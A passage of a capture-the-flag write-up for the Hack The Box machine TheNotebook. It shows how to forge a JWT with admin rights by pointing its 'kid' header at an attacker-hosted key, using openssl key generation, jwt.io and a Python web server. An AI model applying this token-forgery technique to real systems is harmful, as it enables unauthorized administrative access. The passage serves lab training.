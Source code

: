 So, the path is clear: we need to forge a token with `admin_cap: true` and a *valid* signature. 

`kid` must point to a web server under our control.

## JWT

let's create keypair:

```bash
openssl genrsa -out ./private.key 4096
openssl rsa -in private.key -pubout -outform PEM -out public.key
```

We can use https://jwt.io/ to populate everything we need.

![](_attachments/Pasted%20image%2020240426115604.png)

Let's spawn a Python webserver on our port `7070/TCP`:

```bash
joshua@kaligra:~/Documents/htb/machines/TheNotebook$ python3 -m http.server 7070
Serving HTTP on 0.0.0.0 port 7070 (http://0.0.0.0:7070/) ...
```

Of course we have file `private.key` in our document_root

Let's intercept and replace our token:

